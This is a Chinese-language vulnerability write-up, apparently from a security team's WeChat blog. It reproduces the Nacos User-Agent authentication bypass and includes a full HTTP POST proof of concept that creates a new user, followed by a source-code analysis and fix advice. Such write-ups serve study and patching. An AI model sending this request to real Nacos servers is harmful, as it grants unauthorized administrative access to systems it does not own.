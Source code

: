 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/6IxFrlMrUWCd5qvVOVrcvw)

  

**上方蓝色字体关注我们，一起学安全！**

**作者：****Menge & 银空飞羽**

**本文字数：1157**

**阅读时长：3～4min**

**声明：请勿用作违法用途，否则后果自负**

**0x01 简介**  

  

Nacos（官方网站：http://nacos.io）是一个易于使用的平台，旨在用于动态服务发现，配置和服务管理。它可以帮助您轻松构建云本机应用程序和微服务平台。  

**0x02 漏洞概述**  

  

2020 年 12 月 29 日，Nacos 官方在 github 发布的 issue 中披露 Alibaba Nacos 存在一个由于不当处理 User-Agent 导致的未授权访问漏洞 。通过该漏洞，攻击者可以进行任意操作，包括创建新用户并进行登录后操作。  

**0x03 影响版本**  

  

Nacos <= 2.0.0-ALPHA.1  

**0x04 环境搭建**  

  

Nacos 下载地址 (github):  

```
https://github.com/alibaba/nacos/releases/tag/2.0.0-ALPHA.1
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaxIDicSEMibuVckvqC9RPNRCknDufVpuz9R8TO9icn51WJ9nCY9jDmb2I9fT5AZYdR8zOTibWt88Iu0Q/640?wx_fmt=png)  

【**Linux 搭建**】

下载好后解压文件

```
tar -zxvf nacos-server-2.0.0-ALPHA.1.tar.gz
```

  
进入目录，执行搭建命令

```
./startup.sh -m standalone
```

  
【**Windows 搭建**】  

解压进入目录后执行搭建命令

```
cmd startup.cmd -m standalone
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaxIDicSEMibuVckvqC9RPNRCBLSuWBQqG06kBYBWto4ZgibZP11IGs0MejX7Wpxia1Gr9YAcYkL0cPJg/640?wx_fmt=png)  

接着访问 http://your-ip:8848/nacos

默认账号密码 nacos/nacos  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaxIDicSEMibuVckvqC9RPNRCDibGKwYPGDHMqPhz1SL4cj3IzDXicerMRyANicf7OjSRE7ztZ5TRb7Lew/640?wx_fmt=png)  
出现 Nacos 登录页面则表示搭建成功  

**0x05 漏洞复现**  

  

访问  

```
http://your-ip:8848/nacos/v1/auth/users?pageNo=1&pageSize=1
```

  
可以查看到用户列表  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaxIDicSEMibuVckvqC9RPNRCOy65z4YW5krq3bSnpRBtlv929Q5SZM64YyTQJJbWB8XAsNmUKWxBgg/640?wx_fmt=png)

  
从上图可以发现，目前有一个用户 nacos

漏洞利用，访问

```
http://your-ip:8848/nacos/v1/auth/users
```

  
POST 传参：  

```
usename=test1&password=test1
```

  
修改 UA 头为 Nacos-Server

发送 POST 请求，返回码 200，创建用户成功~！  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaxIDicSEMibuVckvqC9RPNRC79jfB6ibsV3LbmUCGcMhv4fz60RkNdQp86uo8vJfA5lroM3qOicrcoTw/640?wx_fmt=png)

  
返回 Nacos 登录界面 test1/test1

登录成功！  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaxIDicSEMibuVckvqC9RPNRCe1iaAKvcaugHzXhEkffQbpzLgV4V7BA9icqSWzNicYqUqiczRic4ftCuabQ/640?wx_fmt=png)

  
或者直接用 burp 打，构造数据包 poc 如下：

```
POST /nacos/v1/auth/users HTTP/1.1
Host:your-ip:8848
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Nacos-Server
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencode
Content-Length: 27

username=test&password=test
```

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaxIDicSEMibuVckvqC9RPNRCEkwLcJlX3z2iaN4NHqo76dzGrYOs0icj8I5R2v6HIEickCnia3wCqVokBg/640?wx_fmt=png)

  
利用成功！

**0x06 漏洞分析**  

  

首先，入口点我们看一下 github 上相关 issues 的讨论  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaxIDicSEMibuVckvqC9RPNRCdFMRX6oBDJB6Xm3z5u6oPzYaQCD9JG9PzLXC2phVWoXtPcDIibSz1eA/640?wx_fmt=png)

别的不做讨论，只关注漏洞。  

根据提出漏洞的大佬 threedr3am 描述，这个 Nacos-Server 是用来进行服务间的通信的白名单。比如服务 A 要访问服务 B，如何知道服务 A 是服务，只需要在服务 A 访问服务 B 的时候 UA 上写成 Nacos-Server 即可。  

正因为这样，所以当我们 UA 恶意改为 Nacos-Server 的时候，就会被误以为是服务间的通信，因此在白名单当中，绕过的认证。  

这里用的是 nacos-2.0.0-ALPHA.1 的代码进行分析

关键代码在该文件下  

```
/nacos-2.0.0-ALPHA.1/naming/src/main/java/com/alibaba/nacos/naming/web/TrafficReviseFilter.java
```

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaxIDicSEMibuVckvqC9RPNRCygeIhN5QMBDU2GIjcc5rIXaqhUH0Fg1Idia8envbJHficoyX1yTYGTqg/640?wx_fmt=png)

TrafficReviseFilter 继承了 Filter 用来处理请求，而里面的 doFilter 的就很明确了。注释中写道，当接收到其他节点服务的请求时应该被通过，如何验证是其他服务。  

就是下面很简单的一个对于 UA 的一个判断逻辑

```
if (StringUtils.startsWith(agent, Constants.NACOS_SERVER_HEADER)) {
            filterChain.doFilter(req, resp);
            return;
        }
```

这个 Constants.NACOS_SERVER_HEADER 跟踪一下，正是 Nacos-Server  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaxIDicSEMibuVckvqC9RPNRCwfeyfsOn9UKk3Ik9jQTHtUtA8zlIgFl4fm7PbyLFORuEW3ydztdugA/640?wx_fmt=png)

经过这一层的验证，那么则进入到 filterChain 过滤器链中的下一个 filter 过滤器，继续接下来的请求。

**0x07 修复方式**  

  

若业务环境允许，使用白名单限制相关 web 项目的访问来降低风险。

官方已发布最新安全版本，请及时下载升级至安全版本。

```
参考链接：
```

https://blog.csdn.net/xuandao_ahfengren/article/details/112724542

https://mp.weixin.qq.com/s/YokFDDAPKQwMmXJs5oMCEg

https://poc.shuziguanxing.com/#/publicIssueInfo#issueId=3549

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaASAShFz46a4AgLIIYWJQKpGAnMJxQ4dugNhW5W8ia0SwhReTlse0vygkJ209LibhNVd93fGib77pNQ/640?wx_fmt=png)

  

![](https://mmbiz.qpic.cn/mmbiz_jpg/VfLUYJEMVshAoU3O2dkDTzN0sqCMBceq8o0lxjLtkWHanicxqtoZPFuchn87MgA603GrkicrIhB2IKxjmQicb6KTQ/640?wx_fmt=jpeg)

**阅读原文看更多复现文章  
**

Timeline Sec 团队  

安全路上，与你并肩前行